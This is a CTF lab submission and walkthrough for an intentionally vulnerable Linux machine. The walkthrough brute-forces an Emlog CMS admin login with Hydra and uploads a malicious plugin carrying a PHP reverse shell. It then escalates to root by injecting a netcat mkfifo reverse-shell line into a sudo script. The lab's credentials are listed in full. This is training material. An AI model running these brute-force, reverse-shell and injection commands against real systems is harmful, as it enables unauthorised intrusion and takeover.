









# Logers

## Introduction

**Logers** is an Easy-rated Linux machine designed to demonstrate a realistic web application compromise followed by a custom privilege escalation technique.

The machine begins with enumeration of a publicly accessible web service hosting an **Emlog CMS** instance. Players must identify the correct virtual host, enumerate accessible resources, and obtain administrative access through a weak password that is intentionally crackable using the `rockyou.txt` wordlist. After authenticating, players exploit a vulnerable Emlog plugin upload functionality (CVE-2026-41517) to gain remote code execution.

Following the initial foothold, players must perform local enumeration to discover a backup configuration file containing credentials for a secondary system user. Finally, the machine concludes with a custom privilege escalation vulnerability involving insecure command execution inside a privileged maintenance script.

The machine focuses on the following skills:

* Linux enumeration
* Virtual host discovery
* Directory enumeration
* Password auditing with Hydra
* CMS exploitation
* PHP reverse shells
* Credential harvesting
* SSH access
* Sudo enumeration
* Command Injection
* Linux Privilege Escalation

---

# Info for HTB

## Access

### Passwords

| User        | Password                           |
| ----------- | ---------------------------------- |
| admin (CMS) | eminem                             |
| logging     | superlogging                       |
| root        | *ethicalhacker@logging* |

---

## Key Processes

### Nginx

Hosts the Emlog CMS website and is configured to serve the application only through the virtual host:

```
logers.htb
```

Direct access using the IP address returns a 404 response to encourage virtual host enumeration.

---

### PHP-FPM

Runs PHP 8.3 and executes the Emlog application.

---

### OpenSSH

Provides SSH access for the **logging** user after credentials are obtained from the backup configuration file.

---

### MySQL

Stores all Emlog CMS data including administrator credentials.

---

### Custom Privileged Script

```
/usr/local/bin/status_check.sh
```

The **logging** user is allowed to execute this script as root without a password.

The script contains an intentional command injection vulnerability which forms the intended privilege escalation path.

Source code is included with the submission.

---

## Automation / Crons

No cron jobs are required for the intended exploitation path.

No automated cleanup scripts are configured.

---

## Firewall Rules

No custom firewall rules are configured.

Only the intended services are exposed:

* TCP/22 (SSH)
* TCP/80 (HTTP)

---

## Docker

Docker is not used.

---

## Other

The machine intentionally requires virtual host discovery.

The web application is only accessible through:

```
logers.htb
```

Players are expected to add the hostname to their `/etc/hosts` file after discovering it during enumeration.

The administrator password is intentionally weak and is crackable within a few seconds using the `rockyou.txt` wordlist.

The privilege escalation vulnerability is a custom command injection inside a privileged maintenance script rather than a public GTFOBins technique.

---

# Writeup

This walkthrough documents the intended solution path for compromising the machine.

The attack path consists of four major phases:

1. Enumeration
2. Initial Foothold
3. Lateral Movement
4. Privilege Escalation

Every command shown below can be copied directly to reproduce the attack.

---

# Enumeration

The first step is to identify the services running on the target machine.

```bash
nmap -sC -sV 192.168.52.149
```

output:


The scan reveals two services:

* SSH
* HTTP

The HTTP service also exposes a `robots.txt` entry indicating the existence of an administrative interface.

```
/admin/
```

---

## HTTP Enumeration

Browsing directly to the server IP does not expose the application.


This indicates that the application likely relies on a virtual host configuration.

Attempting to browse using the hostname initially fails because the local machine cannot resolve the domain.


After adding the discovered hostname into `/etc/hosts`:

```bash
sudo nano /etc/hosts
```

Add:

```
192.168.52.149    logers.htb
```


Browsing again successfully loads the Emlog CMS homepage.


---

## Directory Enumeration

Directory enumeration identifies several interesting endpoints.

```bash
gobuster dir \
-u http://logers.htb \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Interesting results include:


```
/admin
/content
/posts
/users
```

The `/admin` endpoint presents an administrator login panel.


# Foothold

## Discovering the Login Parameters

Before attempting authentication, the login request was analyzed using the browser's Developer Tools.

After submitting test credentials, the POST request revealed the following parameters:

```text
POST /admin/account.php?action=dosignin

user=
pw=
```


Since the parameter names were identified successfully, the administrator password could now be audited.

---

## Brute Forcing the Administrator Password

The administrator username was inferred from the login page and default Emlog installation.

Using Hydra with the `rockyou.txt` wordlist quickly identifies the correct password.

```bash
hydra -l admin \
-P /usr/share/wordlists/rockyou.txt \
logers.htb \
http-post-form "/admin/account.php?action=dosignin:user=^USER^&pw=^PASS^:id=\"pw\""
```

Hydra successfully recovers the credentials.

```text
login: admin
password: eminem
```


The recovered credentials allow successful authentication into the administrator dashboard.

---

## Administrator Dashboard

After logging in, the administration panel becomes accessible. and identified the **Emlog Version 2.6.10**

One of the available features is **Plugin Management**, allowing administrators to upload custom plugins.


This functionality becomes particularly interesting after researching the installed version of Emlog.

---

## Vulnerability Research

Searching the installed Emlog version reveals a recently disclosed vulnerability.

```
CVE-2026-41517
```

The advisory describes an unrestricted plugin upload vulnerability which allows arbitrary PHP execution after uploading a crafted ZIP archive.


The proof of concept demonstrates that an attacker can create a malicious plugin containing PHP code and upload it through the administrator interface.


---

## Building a Malicious Plugin

A new plugin directory is created.

```bash
mkdir backdoor-plugin
cd backdoor-plugin
```

Inside the directory, a PHP reverse shell is placed.

```bash
nano backdoor-plugin.php
```

Instead of writing a shell manually, the widely used **PentestMonkey PHP reverse shell is used.**

The callback IP address is modified to match the attacker's machine.

```php
$ip = '192.168.52.140';
$port = 4444;
```


The plugin directory is then archived.

```bash
cd ..
zip -r backdoor-plugin.zip backdoor-plugin
```


---

## Uploading the Plugin

Inside the administrator dashboard, navigate to:

```
Plugin
```

Click **Installing Plugins**.


Upload the malicious ZIP archive.


The plugin uploads successfully without any validation, confirming the unrestricted upload vulnerability.

---

## Locating the Uploaded Plugin

To determine where the plugin has been extracted, enumerate the content directory.

```bash
dirb http://logers.htb/content/
```

Interesting directory:

```text
/content/plugins/
```


The uploaded plugin is located at:

```text
/content/plugins/backdoor-plugin/backdoor-plugin.php
```

---

## Triggering Remote Code Execution

Start a Netcat listener.

```bash
nc -lvnp 4444
```

Navigate to the uploaded plugin.

```
http://logers.htb/content/plugins/backdoor-plugin/backdoor-plugin.php
```

The browser returns a timeout because the PHP process is attempting to establish the reverse connection.


Meanwhile, the Netcat listener receives a connection.

```text
connect to [192.168.52.140] from [192.168.52.149]
```

Upgrade the shell to a fully interactive TTY.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

A stable shell is now obtained as the web server user.

```text
www-data@logers
```


At this point, arbitrary commands can be executed on the target system.

# Lateral Movement

## Enumerating the System

After obtaining a shell as the `www-data` user, basic system enumeration is performed.

```bash
whoami
id
hostname
```

Output:

```text
www-data
uid=33(www-data) gid=33(www-data)
logers
```

The web root is inspected for configuration files that may contain credentials.

```bash
cd /var/backups/
```

During enumeration, a backup configuration file is discovered.

```text
/var/backups/config.php
```



---

## Recovering Credentials

Opening the backup file reveals hardcoded credentials.

```bash
cat /var/backups/config.php
```


Inside the file, SSH credentials for another user are present.

```text
logging
superlogging
```

These credentials are intended to be discovered through local enumeration after compromising the web server.

---

## SSH Access

Using the recovered credentials, authenticate over SSH.

```bash
ssh logging@logers.htb
```


After successful authentication:

```text
logging@logers:~$
```

The user flag can now be obtained.

```bash
cat ~/user.txt
```



At this point, a stable user shell has been established and the machine transitions into the privilege escalation phase.

---

# Privilege Escalation

## Sudo Enumeration

The first step is to determine whether the current user has any sudo privileges.

```bash
sudo -l
```

Output:

```text
User logging may run the following commands on logers:

(root) NOPASSWD: /usr/local/bin/status_check.sh
```



This immediately highlights a custom script as the intended privilege escalation vector.

---

## Analyzing the Script

View the script contents.

```bash
sudo /usr/local/bin/status_check.sh
```

Because user input is expanded directly by the shell, command injection becomes possible.

This behavior forms the intended privilege escalation vulnerability.



---

## Exploiting the Command Injection

Execute the script.

```bash
sudo /usr/local/bin/status_check.sh
```

When prompted for the service name, inject an additional command.

```text
test; id
```


The injected command executes with root privileges.

So Let's run this file again and this time we type **test; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.52.140 4343 >/tmp/f**

A root shell is immediately spawned.

```text
root@logers:/home/logging#
```



---

## Obtaining the Root Flag

Finally, read the root flag.

```bash
cat /root/root.txt
```



---

# Conclusion

The intended attack path for **Logers** demonstrates a complete compromise of a Linux web server through realistic misconfigurations and insecure coding practices.

The attack consists of:

1. Enumerating the exposed HTTP service.
2. Discovering the `logers.htb` virtual host.
3. Enumerating the Emlog CMS installation.
4. Recovering administrator credentials through an intentionally weak password.
5. Exploiting the vulnerable plugin upload functionality to gain remote code execution.
6. Enumerating the filesystem to recover SSH credentials from a backup configuration file.
7. Establishing a stable SSH session as the `logging` user.
8. Exploiting a custom command injection vulnerability in a privileged maintenance script to obtain root privileges.

This machine emphasizes several practical skills commonly encountered during real-world web application assessments, including web enumeration, CMS exploitation, credential harvesting, Linux post-exploitation, and custom privilege escalation through insecure shell scripting.
